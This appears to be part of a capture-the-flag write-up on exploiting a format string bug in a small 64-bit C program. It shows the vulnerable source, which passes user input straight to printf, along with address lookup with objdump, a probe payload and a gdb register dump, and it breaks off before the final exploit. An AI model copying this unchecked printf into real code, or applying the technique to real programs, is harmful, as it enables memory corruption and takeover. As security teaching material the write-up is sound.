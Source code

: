 Let's take a look at the code...

```
#include <stdio.h>
#include <stdlib.h>

int var0 = 0;

void fun0()
	{
	char buf0[100];
	fgets(buf0, sizeof(buf0), stdin);
	printf(buf0);

	if (var0 == 486)
		{
			printf("What type of a guy would take advantage of a printf? I'll tell you. Level Cleared\n");
		}
	printf("The value of var0 is %d\n", var0);
	}

int main()
{
	fun0();
}
```

So we can see that this challenge is pretty similar to the previous challenge. The only real difference is that the if then statement is checking to see if the value is equal to a specific value. This is something we can deal with towards the end, but first off we have to go throught the same process that we did for the previous challenge.

First let's find the address of the var0 int. Since it is a global int, it should have a static address that we can view using objectdump.

```
$	objdump -t ./f2_64 | grep var0
000000000060105c g     O .bss	0000000000000004              var0
```

Now that we have the address of var0 (0x60105c) closer to being able to write the exploit. Next we need to find out where the address in our exploit will be stored in memory. For this we will feed the program a string that should be the same length as our exploit, and look at where it is in gdb.

```
$	python -c 'print "%5$x" + "\xad\xde\xbe"' > p1
```

and now onto gdb (we will be analyzing the program's memory right after the vulnerable printf call which)

```
gdb-peda$ b *fun0+59
Breakpoint 1 at 0x4006a1
gdb-peda$ r < p1
Starting program: /Hackery/escape/fmt_str/f2_64/f2_64 < p1

 [----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0xabede6461787824 
RDX: 0x7ffff7dd3790 --> 0x0 
RSI: 0x60201a --> 0x0 
RDI: 0x7fffffffddb0 --> 0xde64617878243525 
RBP: 0x7fffffffde20 --> 0x7fffffffde30 --> 0x400700 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffddb0 --> 0xde64617878243525 
RIP: 0x4006a1 (<fun0+59>:	call   0x400530 <printf@plt>)
R8 : 0x60201a --> 0x0 
```